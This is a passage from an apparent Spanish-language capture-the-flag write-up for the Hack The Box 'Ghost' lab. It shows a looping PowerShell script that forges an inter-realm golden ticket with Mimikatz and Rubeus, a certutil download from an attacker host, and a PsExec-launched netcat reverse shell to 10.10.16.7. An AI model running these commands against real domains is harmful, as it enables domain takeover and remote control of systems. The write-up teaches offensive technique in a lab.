  UserRealm                :  corp.ghost.htb
  StartTime                :  2/7/2025 6:17:38 PM
  EndTime                  :  2/8/2025 4:17:38 AM
  RenewTill                :  2/14/2025 6:17:38 PM
  Flags                    :  name_canonicalize, ok_as_delegate, pre_authent, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  XCjT3dS64Tp/ztbYK79hmlp/BfVoW2Ed2YwmokOSMWI=
```

Comprobamos que el ticket se haya inyectado correctamente en la sesión.

```powershell
PS C:\ProgramData> klist
klist

Current LogonId is 0:0x3e7

Cached Tickets: (1)

#0>	Client: Administrator @ corp.ghost.htb
	Server: cifs/dc01.ghost.htb @ GHOST.HTB
	KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
	Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize 
	Start Time: 2/7/2025 18:17:38 (local)
	End Time:   2/8/2025 4:17:38 (local)
	Renew Time: 2/14/2025 18:17:38 (local)
	Session Key Type: AES-256-CTS-HMAC-SHA1-96
	Cache Flags: 0 
	Kdc Called: 
```

Tratamos de verificar el acceso a los recursos compartidos del `DC01.GHOST.HTB` pero se nos muestra mensaje de acceso denegado. Esto debido, que este proceso debe ser más rápido.

```powershell
PS C:\ProgramData> dir \\dc01.ghost.htb\c$
dir \\dc01.ghost.htb\c$
dir : Access is denied
At line:1 char:1
+ dir \\dc01.ghost.htb\c$
+ ~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (\\dc01.ghost.htb\c$:String) [Get-ChildItem], UnauthorizedAccessExcept 
   ion
    + FullyQualifiedErrorId : ItemExistsUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand
 
dir : Cannot find path '\\dc01.ghost.htb\c$' because it does not exist.
At line:1 char:1
+ dir \\dc01.ghost.htb\c$
+ ~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ObjectNotFound: (\\dc01.ghost.htb\c$:String) [Get-ChildItem], ItemNotFoundException
    + FullyQualifiedErrorId : PathNotFound,Microsoft.PowerShell.Commands.GetChildItemCommand
 
```

Por lo tanto, creamos el siguiente script `PS1` para realizar los pasos anteriores en bucle hasta conseguir el acceso correspondiente.

```powershell
# Definir las rutas de los ejecutables de Mimikatz y Rubeus
$mimikatzPath = ".\mk.exe"
$rubeusPath = ".\Rubeus.exe"

# Definir los comandos de Mimikatz y Rubeus
$mimikatzTrustCmd = '"lsadump::trust /patch" exit'  
# Extrae información de relaciones de confianza en Active Directory
$mimikatzGoldenCmd = '"kerberos::golden /user:Administrator /domain:corp.ghost.htb /rc4:6d6f0fb56ad234f6b85ae8be3ae6e2a3 /sid:S-1-5-21-2034262909-2733679486-179904498 S-1-5-21-4084500788-938703357-3654145966-519 /target:ghost.htb /service:krbtgt /ticket:gzzcoo.kirbi" exit'
# Genera un Golden Ticket con los datos del usuario Administrator
$rubeusCmd = "/ticket:gzzcoo.kirbi /dc:dc01.ghost.htb /service:cifs/dc01.ghost.htb /nowrap /ptt"
# Usa Rubeus para pedir un TGS y aplicarlo en memoria
# Definir el directorio al que se intentará acceder
$targetDirectory = "\\dc01.ghost.htb\c$"

# Función para ejecutar un comando y esperar a que termine
function Run-Command {
    param (
        [string]$cmd
    )
    & cmd /c $cmd | Out-Null
}

# Bucle que seguirá intentando hasta obtener acceso
while ($true) {
    try {
        # Ejecutar Mimikatz para obtener información de trusts y generar el Golden Ticket
        Run-Command "$mimikatzPath $mimikatzTrustCmd"
        Run-Command "$mimikatzPath $mimikatzGoldenCmd"

        # Ejecutar Rubeus para solicitar un TGS y aplicar el ticket en memoria
        Run-Command "$rubeusPath asktgs $rubeusCmd"

        # Verificar si se tiene acceso al directorio
        $access = Test-Path $targetDirectory
        if ($access) {
            Write-Host "Acceso concedido a $targetDirectory"
            dir $targetDirectory
            break
        } else {
            Write-Host "Acceso denegado. Purgando tickets y reintentando..."
            klist purge
        }
    } catch {
        Write-Host "Ocurrió un error: $_"
        klist purge
    }
}
```

Ejecutaremos el script de PowerShell y verificaremos que finalmente ganamos acceso a los recursos compartidos del DC.

```powershell
PS C:\ProgramData> .\exploit.ps1
.\exploit.ps1
Access granted to \\dc01.ghost.htb\c$


    Directory: \\dc01.ghost.htb\c$


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
d-----          5/8/2021   1:20 AM                PerfLogs                                                             
d-r---         7/22/2024   9:55 AM                Program Files                                                        
d-----         7/22/2024   9:55 AM                Program Files (x86)                                                  
d-r---          2/4/2024   1:48 PM                Users                                                                
d-----         7/10/2024   3:08 AM                Windows   
```

Teniendo acceso a los recursos del Domain Controller, podemos visualziar directamente la flag de **root.txt**.

```powershell
PS C:\ProgramData> cat \\DC01.ghost.htb\C$\Users\Administrator\Desktop\root.txt
cat \\DC01.ghost.htb\C$\Users\Administrator\Desktop\root.txt
9aa9bfa25***********************
```

### Shell as Ghost Administrator

Pero lo que nos interesa realmente, es convertirnos en el usuario `Administrator` en el DC. Por lo tanto, lo que realizaremos es compartir el binario de `nc.exe` desde `PRIMARY` hasta el `DC01`. Verificaremos que se ha copiado el binario correctamente.

```powershell
PS C:\ProgramData> copy nc.exe \\dc01.ghost.htb\c$\ProgramData
copy nc.exe \\dc01.ghost.htb\c$\windows\ProgramData

PS C:\ProgramData> dir \\DC01.ghost.htb\C$\ProgramData
dir \\DC01.ghost.htb\C$\ProgramData


    Directory: \\DC01.ghost.htb\C$\ProgramData


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
d---s-         7/22/2024   9:55 AM                Microsoft                                                            
d-----         7/22/2024   9:55 AM                Package Cache                                                        
d-----         1/30/2024   7:09 PM                Packages                                                             
d-----         1/30/2024   7:19 PM                regid.1991-06.com.microsoft                                          
d-----          5/8/2021   1:20 AM                SoftwareDistribution                                                 
d-----          5/8/2021   2:36 AM                ssh                                                                  
d-----         1/30/2024   9:24 AM                USOPrivate                                                           
d-----          5/8/2021   1:20 AM                USOShared                                                            
d-----         1/30/2024   9:21 AM                VMware                                                               
-a----          2/7/2025  12:50 PM          30208 ADFSDump.exe                                                         
-a----          2/7/2025   6:51 PM          28160 nc.exe    
```

Dado que ahora tenemos una sesión con TGS válido como Administrador del dominio GHOST.HTB para acceder al servicio CIFS, podemos ejecutar PsExec para ejecutar comandos en sistemas remotos.

Compartiremos el binario de `PsExec64.exe` a través de un servidor web.

```bash
❯ ls -l PsExec64.exe
.rw-rw-r-- kali kali 814 KB Tue Apr 11 18:10:26 2023  PsExec64.exe

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Descargaremos el binario correspondiente en el equipo de `PRIMARY`.

```powershell
PS C:\ProgramData> certutil.exe -f -urlcache -split http://10.10.16.7/PsExec64.exe PsExec64.exe
certutil.exe -f -urlcache -split http://10.10.16.7/PsExec64.exe PsExec64.exe
****  Online  ****
  000000  ...
  0cb7c0
CertUtil: -URLCache command completed successfully.
```

Desde una terminal nueva, nos pondremos en escucha para recibir la shell.

```bash
❯ rlwrap -cAr nc -nlvp 4444
listening on [any] 4444...
```

A través del siguiente comando, ejecutaremos en el `DC01` el `nc.exe` que hemos copiado para otorngarnos una Reverse Shell hacia nuestro equipo.

```powershell
PS C:\ProgramData> .\PsExec64.exe -acepteula \\DC01.ghost.htb cmd.exe /c "C:\ProgramData\nc.exe -e powershell 10.10.16.7 4444"
.\PsExec64.exe -acepteula \\DC01.ghost.htb cmd.exe /c "C:\ProgramData\nc.exe -e powershell 10.10.16.7 4444"

PsExec v2.43 - Execute processes remotely
Copyright (C) 2001-2023 Mark Russinovich
Sysinternals - www.sysinternals.com

Starting cmd.exe on DC01.ghost.htb...1.ghost.htb...
```

Verificamos que ganamos acceso al `DC01.GHOST.HTB` con el usuario `Administrator` y podemos visualizar correctamente la flag de **root.txt.**

```bash
❯ rlwrap -cAr nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.11.24] 62725
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Windows\system32> whoami
whoami
corp\administrator
PS C:\Windows\system32> hostname
hostname
DC01
PS C:\Windows\system32> type C:\Users\Administrator\Desktop\root.txt
type C:\Users\Administrator\Desktop\root.txt
9aa9bfa25***********************
```
